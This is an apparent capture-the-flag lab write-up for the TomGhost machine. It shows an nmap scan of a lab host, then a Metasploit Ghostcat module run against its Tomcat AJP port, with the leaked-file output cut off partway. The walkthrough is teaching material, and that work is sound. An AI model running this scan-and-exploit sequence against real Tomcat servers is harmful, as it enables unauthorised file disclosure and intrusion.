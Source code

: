 # TomGhost

## Enumeration

### nmap

```
PORT     STATE    SERVICE       REASON      VERSION
22/tcp   open     ssh           syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open     tcpwrapped    syn-ack
726/tcp  filtered unknown       no-response
5033/tcp filtered jtnetd-server no-response
8009/tcp open     ajp13         syn-ack     Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open     http          syn-ack     Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apache tomcat server on port 8080 but no website is setup?

we search an exploit and with metasploit we use this

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.212.86
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one or more
contributor license agreements.  See the NOTICE file distributed with
this work for additional information regarding copyright ownership.
The ASF licenses this file to You under the Apache License, Version 2.0
(the "License"); you may not use this file except in compliance with
the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
```